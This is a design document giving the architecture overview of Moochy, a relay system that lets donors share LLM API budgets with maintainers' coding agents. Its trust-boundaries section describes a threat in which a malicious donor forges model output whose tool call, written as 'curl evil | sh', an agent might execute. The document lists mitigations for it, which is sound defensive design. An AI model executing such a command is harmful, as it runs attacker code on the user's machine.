




# 02 — Architecture Overview

> Scope: the whole system on one page, then each part in depth. The other documents expand every box drawn here.
> Conventions: **MUST / SHOULD / MAY** are used in the RFC 2119 sense. Money is always **µ$** (integer micro-US-dollars, see [05](05-ledger-and-accounting.md)).

> **Updated 2026-10-01:** this overview now matches `spec/CONTRACT.md`, revised ADR-01, and ADR-33 to ADR-42. Changes: open-source client (Apache-2.0, DCO) and closed-source relay + web in two repositories, no relay self-hosting (ADR-01, CONTRACT §0a); gRPC `NodeLink` streams replace the WebSocket and binary frames (ADR-33); `LocalControl` and `RelayAdmin` gRPC over Unix sockets; adaptive group commit replaces the 10 ms window (ADR-34); relay binary is `relay`; three Rust crates plus `moochy-keylog` (ADR-36); `ed25519-zebra`, `tonic`/`grpc-go`, hand-written CSS, and `x/mod` tlog + note without Tessera in the stack (ADR-39).

---

## 1. The system in one paragraph

Moochy has an **open-source client (Apache-2.0)** and is **100% free**. The `moochy` client, the protocol definition, and the user guides are open source; the relay and web are closed source and operated by Moochy. There are no fees, no commission on compute, and no paid tier. Donors pay their own provider directly. Moochy never holds anyone's money; the project's own small hosting bill is sponsor-funded, with public accounts.

A **Donor** runs the `moochy` binary on any always-on machine. It keeps their LLM provider API key (Anthropic, OpenAI, OpenRouter, DeepSeek, xAI (Grok), or any OpenAI-compatible provider) in the OS keychain and holds **one outbound gRPC connection** (HTTP/2, TLS 1.3) to the **Relay**. A **Maintainer** runs the same binary. It opens **two universal entry points** on `127.0.0.1`. One is a **provider-compatible API** (Anthropic Messages, OpenAI Chat Completions) for any tool or SDK that accepts a base URL. The other is an **MCP server** (stdio and Streamable HTTP) for any MCP client or AI agent: Claude Code, OpenCode, Cursor, Cline, Zed, Goose, agent frameworks, or custom agents. Existing tools work without changes. The Gateway compresses the request, **seals it end-to-end** to a small set of candidate donor devices, and sends it to the Relay. The Relay is a closed-source Go monolith operated by Moochy, and it **cannot read the content**. Users do not need to trust it: nobody can verify which binary an operator actually runs, so confidentiality is enforced by cryptography in the open-source client, not by trust in the Relay. Its scheduler picks the best donor from in-memory state in microseconds, then forwards the sealed bytes. The donor's **Worker** opens the request, runs it through a strict **request firewall**, calls the provider over a warm HTTP/2 connection, and streams the encrypted output back. When the stream ends, the Worker signs a **usage receipt** (and signs every tool call as it streams). The Maintainer's Gateway checks the receipt against the bytes it actually sent and received, and disputes it with a signature if anything differs. The Relay settles the donor's budget and publishes a donor-signed, privacy-preserving **projection** of the receipt. Identities, owner-signed approvals, and prices live in a public **key log** that every Node mirrors and verifies.

---

## 2. System context



### 2.1 Actors

| Actor | What they want | What they run |
|---|---|---|
| **Donor** | Give part of their API budget to projects they care about, with a hard cap, without handing over their key | `moochy` Node with the Worker role |
| **Maintainer** (repo owner or admin) | Run coding agents on donated compute with zero tooling changes | `moochy` Node with the Gateway role, plus the web console |
| **Member** (collaborator authorized by the owner) | Same as Maintainer, within a quota set by the owner | `moochy` Node with the Gateway role |
| **Visitor** | See which projects need compute, who is helping, and proof that it is real | Browser |
| **Operator** (Moochy) | Run a blind, cheap, reliable broker | `relay` binary (closed source) |
| **Verifier** (anyone) | Keep the operator honest | `moochy verify`, any tlog client, or a mirror of the public Git anchor |

In the rest of the plan, "Maintainer" means any authorized consumer (owner, admin, or member). "Repo owner" is used where admin rights matter.

---

## 3. Components and responsibilities

### 3.1 Relay (`relay/` in the closed-source `moochy-core` repository, Go)

| Component | Responsibility | Owns state? | Hot path? |
|---|---|---|---|
| **Edge** | TLS termination (autocert), gRPC `NodeLink` server on its own listener (`--grpc-addr`, TLS 1.3, ALPN `h2`) next to the HTTP listener (`--addr`); device auth once per HTTP/2 connection with RFC 9266 channel binding; `Session`, `Submit`, and `Serve` stream handlers; HTTP/2 hardening (128 streams per connection, Rapid-Reset and CONTINUATION limits, 15 s keepalive pings); data-plane forwarding of `Chunk` messages between a task's `Submit` stream and its attempt's `Serve` stream | Connection table, forwarding table (`task_id → Submit stream`, `(task_id, attempt) → Serve stream`) | Yes, every chunk |
| **Scheduler** | Single goroutine that owns all routing and budget state; matches tasks to workers; reservations; deadlines; failover | Workers, pledges, pools, affinity, in-flight tasks | Yes, once per task event |
| **Ledger** | Pure accounting rules (cost function, reservation math, settlement) plus persistence of the results | None in memory (the Scheduler holds live balances) | Per task end |
| **Key log** | Appends entries (device keys, owner-signed repo claims, donor approvals and memberships, catalog versions, moderation), computes tree hashes, signs checkpoints (only for replicated sizes), anchors them hourly in a public Git repository, serves tiles | Tree hashes (SQLite) | Batched |
| **Identity** | GitHub/GitLab OAuth for the web, unique handle choice at first sign-in (CONTRACT §11), device-approval flow for Nodes, repo-claim verification | Users, handles and tombstones, identities, devices, sessions | No |
| **Web** | HTMX pages, SSE hub (render once, fan out to all subscribers, 250 ms coalescing window), badges, public verification pages | SSE subscriber sets | No |
| **Store** | One writer goroutine with **adaptive group commit** (commit at once when idle; batch only what arrives while a commit is in flight); a read-only connection pool; embedded forward-only migrations | SQLite file | Batched |
| **Catalog** | Versioned price and model catalog, signed and published to Nodes | Catalog rows | No |
| **Admin** | `moochy.v1.RelayAdmin` gRPC service on a 0600 Unix socket (`--admin-socket`), used by `relay admin …` (suspend, catalog publish, drain, state); never on the network | None | No |

### 3.2 Node (`cli/` in the open-source `moochy-cli` repository, Rust, one binary, one background process per machine)

| Component | Role | Responsibility |
|---|---|---|
| **Relay link** | both | The single gRPC channel over one TLS 1.3 connection (`tonic` with our own `tokio-rustls` connector, which captures the RFC 9266 exporter for channel binding); one `Session` stream for control, one `Submit` stream per task, one `Serve` stream per attempt; reconnect with jittered backoff, re-authenticating on any transport error |
| **Keystore** | both | Device Ed25519 signing key, device X25519 encryption key, provider API keys; OS keychain with an encrypted-file fallback for headless hosts |
| **Gateway** | maintainer | Local HTTP server on loopback speaking the provider APIs; repo-scoped local tokens; session-affinity key; task signing; compression + sealing to owner-approved donors only; secret scrubbing; tool-call checks; dialect-native errors; receipt checks and signed disputes; optional fallback to the maintainer's own key |
| **MCP server** | maintainer | Two transports, same tools. **stdio** (`moochy mcp`, started by the client, forwards to the running Node through the gRPC `LocalControl` service on the 0600 Unix socket `<home>/state/node.sock`, so starting it costs nothing and many windows share one relay connection) and **Streamable HTTP** on loopback (`http://127.0.0.1:<port>/mcp`, for agent frameworks and remote-style MCP configs). Works with any MCP client ([07 §5](07-client-cli.md)) |
| **Worker** | donor | Slot grants; opening envelopes; **request firewall**; provider adapters with warm connection pools; usage extraction; cancellation (stream cancel aborts the provider call); local hard caps; served-task set (in memory, plus a boot-time floor: tasks older than the process start are refused); receipt signing; **outbox** |
| **Local control** | both | `moochy.v1.LocalControl` gRPC server on `<home>/state/node.sock` (mode 0600, peer uid checked) for `status`, `pause`, `resume`, `approve`, `members`, `journal`, and the MCP stdio shim |
| **Monitor** | both | `moochy-keylog` library: mirrors the key log; checks checkpoint consistency and the public Git anchor; flags unknown device keys on the user's own account, and (for owners) repo claims, approvals, or memberships the owner did not sign |
| **Local journal** | both | Append-only local record of every task served or consumed (metadata always, full text if opted in) for the user's own audit |

---

## 4. Trust boundaries



The key insights, each expanded in [06](06-security-and-trust.md):

1. **The Relay is blind by construction.** The Relay is closed source, and even open source would not prove what a server actually runs. So every primitive that protects users (sealing, signing, firewalling, verifying) runs in the open-source client on the user's own machine, which users can read and verify. The Relay only routes opaque bytes and enforces budgets on plaintext *metadata*. It is not trusted with anything it could abuse unnoticed.
2. **Donors are protected from Maintainers** by the Worker's firewall, local hard caps, and provider-side spend limits.
3. **Maintainers are exposed to Donors**, and this is the risk the draft spec missed. A malicious donor can return a forged model response containing tool calls (`run: curl evil | sh`) that the Maintainer's agent may execute. Mitigations: **owner-signed** donor approval per repo, structural tool-call checks and a tripwire in the Gateway, and **signed non-repudiation**. The Worker signs every tool call it streams and a commitment to the exact bytes it returned, so a malicious output becomes provable evidence. That gives the draft's signatures a real purpose: **accountability**, not "proof of compute".

---

## 5. Primary flow — one streamed request



The diagram shows the API door. A `moochy_delegate` call on the MCP door builds the same kind of request inside the Node and then follows exactly the same path, from signing and sealing onward.

Money settles on the **donor-signed** receipt, because the donor's provider was billed either way. The maintainer's Gateway stays silent when the receipt matches what it saw, and sends a signed dispute when it does not ([03 §12](03-wire-protocol.md)). The public audit feed shows the donor-signed **projection** of each receipt: daily granularity, no device ids.

Failure branches (no ACK, provider 429/529/5xx before the provider started, worker disconnect, cancellation) are specified in [03 §10](03-wire-protocol.md) and [04 §8](04-routing-engine.md). Cancellation is a gRPC stream cancel: when the client disconnects, the Gateway cancels its `Submit` stream, the Relay cancels the attempt's `Serve` stream, and the Worker aborts the provider call. Relay policy errors travel as `Failed{code, retryable}` inside the stream; gRPC status codes are reserved for transport and auth failures (CONTRACT §12).

---

## 6. Secondary flows (summaries)

| Flow | Steps | Specified in |
|---|---|---|
| **Device login** | `moochy login` → Node creates its keys → `DeviceStart` (gRPC, unauthenticated, rate-limited per IP) → shows a short code and a URL → user approves in the browser (already signed in with GitHub) → Relay records the device and appends a `KEY_ADDED` log entry → Node receives its device id through `DevicePoll` | [06 §4](06-security-and-trust.md), [07 §8](07-client-cli.md) |
| **Repo claim** | Owner signs in → selects a repo → Relay checks admin permission through the provider API using the user's OAuth token at claim time (token not stored) → owner's Node signs `REPO_CLAIMED` → logged | [06 §5](06-security-and-trust.md) |
| **Pledge** | Donor picks a repo → monthly budget (µ$), per-task cap, models, max effort, schedule → owner's Node signs `DONOR_APPROVED` → logged → Scheduler indexes it; Gateways can now seal to that donor. A schedule window that closes only makes the Worker ineligible (`WorkerOffer.window_open`); it never changes the pledge status. Until the key log ships, Workers accept relay-asserted approvals only under `MOOCHY_INSECURE_DEV=1` | [05 §4](05-ledger-and-accounting.md) |
| **Reclaim / pause** | Donor clicks Reclaim (or runs `moochy pause`) → Scheduler stops new reservations at once → in-flight tasks finish and settle → unspent budget is released | [05 §8](05-ledger-and-accounting.md) |
| **Settlement recovery** | Relay crashes mid-task → Workers abort and receipt their tasks → on reconnect they send `KnownTasks` on the new `Session` stream and replay their outboxes → idempotent settlement by `(task_id, attempt)`; orphaned reservations the Worker never held are released | [05 §7](05-ledger-and-accounting.md) |
| **Handle choice** | First web sign-in → default handle = provider login lowercased if valid and free, otherwise the user picks one (no auto-suffix) → stored lowercase, unique case-insensitively; renames at most every 30 days leave a permanent tombstone | CONTRACT §11, [09](09-data-model.md) |
| **Log monitoring** | Every Node fetches the newest checkpoint → verifies consistency with the last one it saw and with the public Git anchor → mirrors the key log → alerts on unknown keys for its user, and owners on unsigned approvals | [06 §10](06-security-and-trust.md) |

---

## 7. Control plane and data plane

The draft treated "routing" as a single hot path. It is two different problems:

| | Control plane | Data plane |
|---|---|---|
| What | Matching, reserving, deadlines, failover, settlement | Moving chunks of sealed bytes |
| Frequency | ~5 events per task | Hundreds of chunks per task |
| Structure | **One goroutine owns all state** (actor). No locks, no races, deterministic, replayable in tests | **`sync.Map` forwarding table** `task_id → Submit stream`, `(task_id, attempt) → Serve stream`: written once per attempt, read for every chunk. This read-mostly case is exactly what `sync.Map` is optimized for. Backpressure is HTTP/2 per-stream flow control plus a bounded per-stream send queue |
| Latency target | p99 < 50 µs per event at 10k online workers; Submit → Assign ≤ 2 ms p50 / ≤ 8 ms p99 including the durable commit (CONTRACT §13) | One map lookup plus one bounded-queue send per chunk, flushed at once; ≤ 300 µs p50 added per chunk end to end (CONTRACT §13) |

So the draft's "lock-free `sync.Map` registry" belongs in the data plane, not in the matcher.

---

## 8. Deployment topology



- **One process, one file, one sidecar.** `relay serve` opens two listeners: HTTP for the web (`--addr`) and gRPC `NodeLink` (`--grpc-addr`), so the gRPC server keeps its native HTTP/2 hardening. TLS through ACME autocert inside the Go process (`--autocert-domain`). Prometheus metrics on a loopback address (`--metrics-addr`); operator commands over the `RelayAdmin` Unix socket. No reverse proxy, no Redis, no message queue.
- **Litestream** ships the WAL continuously to object storage. RPO is about 1 s. RPO for *spend* is effectively 0, because Worker outboxes replay receipts.
- **Deploys**: drain and restart (≤ 30 s drain, ~10 s of retryable errors, zero ledger drift). Blue/green zero-downtime is designed and built only when deploy-caused failures show up in metrics. See [10 §3](10-operations.md).
- Log tiles are immutable once full, which makes them ideal for a CDN.

---

## 9. Technology stack (final)

| Layer | Choice | Why | Dropped from draft |
|---|---|---|---|
| Relay language | Go (current stable) | Goroutines fit 10k+ long-lived sockets; static binaries; stdlib crypto | — |
| HTTP routing | `net/http` `ServeMux` (method + wildcard patterns, Go ≥ 1.22) | Covers `GET /p/{owner}/{repo}` natively | `chi` (not needed) |
| Machine-to-machine transport | **gRPC** (`google.golang.org/grpc` + `google.golang.org/protobuf`; Rust `tonic` without default TLS features + `prost`), TLS 1.3, ALPN `h2`: `NodeLink` with one stream per task and per attempt; `LocalControl` and `RelayAdmin` over 0600 Unix sockets (ADR-33). Generated code committed, regenerated with `spec/proto/gen.sh` | Typed shared schema, per-stream flow control, cancellation, deadlines | Custom WebSocket framing (`nhooyr`/`coder/websocket`, `tokio-tungstenite`) |
| SQLite (Go) | `modernc.org/sqlite` (CGO-free) | Static builds, one binary | — |
| Key log | Merkle hashing and proofs from `golang.org/x/mod/sumdb/tlog`, signed checkpoints from `golang.org/x/mod/sumdb/note`, C2SP tlog-tiles paths through our own thin layer (no Tessera, ADR-39); Rust verifier and monitor in `moochy-keylog` | Battle-tested in the Go checksum database; standard formats; within the Go dependency allowlist; witnesses can be added later | Plain audit table |
| OAuth | `golang.org/x/oauth2` | Standard | — |
| Relay crypto | Go stdlib (TLS 1.3, SHA-256, HKDF) + `github.com/hdevalence/ed25519consensus` (ZIP-215 verification) | Same verification rules as the Rust client; no cross-implementation gaps | — |
| Frontend | `html/template` + HTMX 2 + `htmx-ext-sse` (vendored) + **hand-written CSS** with custom properties (no framework) + a small vanilla JS motion layer on native CSS features (scroll-driven animations, View Transitions, `@property`) | No build toolchain; strict CSP; budgets: CSS ≤ 48 KB raw (≤ 12 KB gzip), motion JS ≤ 12 KB gzip, at most one self-hosted variable font (≤ 45 KB), landing ≤ 150 KB, LCP ≤ 1.0 s on 4G, CLS 0, INP ≤ 100 ms (CONTRACT §9) | Tailwind |
| Backups | Litestream | Continuous, cheap, proven | — |
| Client language | Rust (stable) | Small static binaries, memory safety for crypto and parsing | — |
| Client async | `tokio` | — | — |
| Client gRPC / HTTP | `tonic` + `prost` over our own `tokio-rustls` connector (RFC 9266 channel binding); `reqwest` (rustls, HTTP/2) to providers; `hyper` (local API and MCP server) | No OpenSSL dependency; `TCP_NODELAY` and warm connections everywhere | — |
| Client crypto | `rustls` (ring provider), `ed25519-zebra` (ZIP-215 verification), `x25519-dalek`, `hpke` (RFC 9180), `chacha20poly1305`, `hkdf`, `sha2`, `zeroize` on every secret, `subtle` for token and MAC comparisons | Audited primitives, standard constructions; ZIP-215 gives Go and Rust identical accept/reject results | GPG / OpenPGP; homemade AES-GCM key wrapping |
| Client JSON | `serde_json` behind a strict parse (duplicate keys, invalid UTF-8, lone surrogates, depth > 64 rejected; CONTRACT §1) for every security or money decision | Parsing a few KB costs microseconds; strictness closes parser-differential attacks | `simd-json` |
| Compression | `zstd` | 3–5× on code and JSON | — |
| MCP | `rmcp` (official Rust MCP SDK): stdio + Streamable HTTP transports | Any MCP client or agent framework can connect | Separate `moochy-mcp` binary |
| License | **Apache-2.0** with DCO sign-off for the open-source client side (`cli/`, `spec/proto`, `spec/vectors`, `spec/protocol.md`, `docs/guides`, `deploy/client`); relay, web, e2e, and internal docs proprietary (ADR-01) | Everything that touches keys, code, and cryptography is open and verifiable; open code never depends on closed code | — (the draft's closed core is kept) |
| Secrets at rest | `keyring` (macOS Keychain, Windows Credential Manager, Secret Service) + scrypt-encrypted file fallback | OS-grade protection; no passphrase prompt at every daemon start | AES-256-GCM passphrase store |
| Release (client) | `cargo-dist` + Sigstore signing + SLSA provenance + reproducible builds | Users can check that the client binary matches the open source; the relay does not need to be verified because it only sees ciphertext | — |

---

## 10. Repository layout

Directory trees only.

The draft split the project into a closed-source `moochy-core` and an open-source `moochy-cli`. An earlier revision of this plan merged both into one public monorepo; the product owner restored the split (ADR-01, CONTRACT §0a). Development happens in one internal monorepo so that a protocol change touches the Go relay, the Rust client, and the shared test vectors in **one reviewable commit**. At release it is published as **two repositories**:

```
moochy-cli/                      (public, Apache-2.0, DCO sign-off, free forever)
├── cli/                         Rust workspace (Cargo.toml = members + release profile)
│   └── crates/
│       ├── proto/               moochy-proto: wire types (committed prost/tonic code), lp, labels,
│       │                        envelopes, receipts, vector generator
│       ├── worker/              moochy-worker: firewall tables + recursive validator, adapters
│       │                        (anthropic, openrouter, deepseek, openai), safe mutations, SSE/usage
│       │                        parsers, tool-call inspection, outbox, served-task set, local
│       │                        reservation counters; NO dependency on moochy-proto
│       ├── node/                moochy (lib + bin): CLI, config, keystore, relay link, API door +
│       │                        MCP door, LocalControl server, local security, wiring
│       └── keylog/              moochy-keylog: key-log verifier + monitor (mirror, consistency, alerts)
├── spec/
│   ├── proto/                   moochy/v1/*.proto + gen.sh (pinned protoc + plugins)
│   ├── vectors/                 golden cross-language test vectors (single source of truth)
│   └── protocol.md              public protocol spec (derived from 03)
├── docs/guides/                 donor, maintainer, MCP/API integration guides
└── deploy/client/               client release tooling (cargo-dist, Sigstore, SLSA)

moochy-core/                     (private, proprietary)
├── relay/                       Go module moochy.dev/relay: the relay + web app
│   ├── cmd/relay/               entrypoint (`relay serve`, `relay admin`), flags, wiring
│   └── internal/
│       ├── pb/                  committed grpc-go / protobuf code generated from spec/proto
│       ├── edge/                NodeLink server, auth + channel binding, stream handlers, forwarding table
│       ├── sched/               scheduler actor, eligibility, selection, deadlines
│       ├── ledger/              cost function, reservation math, settlement rules
│       ├── tlog/                key log: append, tlog hashing/proofs, C2SP tiles, checkpoints, Git anchor
│       ├── oauth/               GitHub + GitLab OAuth, web sessions, handle choice, repo-claim checks
│       ├── identity/            device approval, handles and tombstones
│       ├── web/                 handlers, templates, CSS, SSE hub, badges
│       ├── metrics/             Prometheus registry, SLOs
│       ├── store/               writer goroutine (adaptive group commit), readers, migrations
│       └── catalog/             price/model catalog, signing
├── e2e/                         harness, fake providers, scenarios E01–E22, attack scenarios
├── deploy/                      systemd units, Litestream config, drain-and-restart, restore drills
├── docs/                        plan, ops runbooks, security catalog, traceability
└── spec/CONTRACT.md             implementation contract (normative)
```

The client is **three crates plus the key-log library** (ADR-36). `moochy-worker` does not depend on `moochy-proto`, so the provider-facing code (firewall, adapters, parsers) can be reviewed and fuzzed without the protocol code, and a bug in one cannot silently widen the other. Shared protocol truth lives in **language-neutral test vectors** (`spec/vectors`) and the `.proto` files, not in a shared library, because the two sides are written in different languages.

**Open code never imports, links, or copies closed code**; closed code may use open code. Self-hosting the relay is **not offered**: the Node's relay URL stays configurable for development and tests only. Users do not need a relay of their own to be safe, because everything that touches their keys, their code, and the cryptography runs in the open-source client, and the relay only ever sees encrypted bytes plus the route header and accounting metadata.

---

## 11. Latency budget (honest version)

The draft optimized for "<1 ms dispatch" and "<2 ms serialization". Neither matters next to the real costs. Worked example: maintainer in Paris, Relay in Germany, donor in New York, provider in the US.

| Segment | Draft's focus | Realistic cost | Lever that actually helps |
|---|---|---|---|
| Gateway serialize + compress + seal (400 KB agent context) | <2 ms | ~1–2 ms | — (already negligible) |
| **Upload of the agent context** (400 KB raw → ~100 KB after zstd, at 10 Mbit/s) | ignored | **~80 ms** (320 ms uncompressed) | zstd before sealing (v1); prefix-delta transfer would bring it to ~10 ms and is designed but deferred ([03 §9](03-wire-protocol.md)) |
| Maintainer → Relay one-way | ignored | ~15 ms | Region choice |
| Scheduler match | <1 ms | ~5–50 µs | — |
| Relay → Worker one-way + body transfer | ignored | ~45 ms + transfer | Compression; RTT term in the routing score |
| Worker → provider (cold TLS) | ignored | ~100–150 ms | **Warm HTTP/2 pool** → ~5–30 ms |
| **Provider time-to-first-token** | ignored | **300 ms – several s** | Session affinity → prompt-cache hits (lower TTFT and up to ~90% cheaper input) |
| Token stream back (Worker → Relay → Gateway) | ignored | ~60 ms one-way | Streaming pass-through: every chunk flushed at once, `TCP_NODELAY`, no token batching (≤ 300 µs p50 added per chunk, CONTRACT §13) |

**What Moochy adds on top of calling the provider directly**: about 150–250 ms intercontinental and 50–120 ms in-continent, of which uploading the compressed context is the most variable part. Without compression and warm pools it would be 500 ms or more. Targets are in [01 §5](01-vision-scope-and-draft-review.md) and measured in [10 §5](10-operations.md). The part Moochy controls is budgeted separately and much tighter: on loopback with an instant fake provider, Moochy adds ≤ 5 ms p50 / ≤ 15 ms p99 to time-to-first-token. Those budgets (CONTRACT §13) are release blockers measured by E22.

---

## 12. Scalability envelope

| Dimension | Single-node design point | First bottleneck | Next step |
|---|---|---|---|
| Connected Nodes | 50k gRPC connections (HTTP/2) | Memory (~20–40 KB per connection) | Bigger VM |
| Concurrent streamed tasks | 5k (agent turns stream ~20–60 s) | Egress bandwidth | Compression (v1); then delta transfer; then shard |
| Task starts per second | ≈ 200 sustained (5k concurrent ÷ ~25 s) | Scheduler actor at ~100k events/s (plenty of headroom) | Shard the Scheduler by repo |
| Ledger writes | ≈ 200 receipts/s | SQLite single writer, **adaptive group commit** (commit at once when idle; under load, everything that arrives during one commit shares the next), `synchronous=FULL` (≫ 10k rows/s) | Shard by repo |
| SSE subscribers | 20k | Fan-out writes (render once, so cheap) | Separate web process |

**Scale-out path** (only when measured): routing and money are naturally **partitioned by repository**, because a task for repo X can only be served by pledges to repo X. Shard by `repo_id` with consistent hashing. Each shard runs its own Scheduler and SQLite file. Users, devices, and the key log are global, small, and replicated. Workers that pledge to repos on several shards keep one connection per shard; there are rarely more than a few. See [10 §9](10-operations.md).
